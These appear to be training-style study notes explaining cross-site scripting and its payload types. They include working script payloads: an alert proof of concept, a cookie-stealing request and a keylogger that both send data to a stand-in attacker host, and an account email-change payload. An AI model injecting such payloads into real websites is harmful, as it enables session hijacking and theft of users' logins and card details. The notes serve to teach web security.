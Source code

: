 ## What is XSS?
is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.

## XSS payloads:

### What is a payload?
- the payload is the JavaScript code we wish to be executed on the targets computer.
- There are two parts to the payload, the intention and the modification.
	- The intention is what you wish the JavaScript to actually do and the modification is the changes to the code we need to make it execute as every scenario is different.

### Here are some examples of XSS intentions.

#### Proof Of Concept:
- This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website.
- This is often done by causing an alert box to pop up on the page with a string of text, for example:
```js
<script>alert('XSS');</script>
```

#### Session Stealing:
- Details of a user's session, such as login tokens, are often kept in cookies on the targets machine.
- Once the hacker has these cookies, they can take over the target's session and be logged as that user.
```js
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

#### Key Logger:
- The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control.
- This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
```js
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

#### Business logic:
- This payload is a lot more specific than the above examples.
- This would be about calling a particular network resource or a JavaScript function.
- For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:
```js
<script>user.changeEmail('attacker@hacker.thm');</script>
```

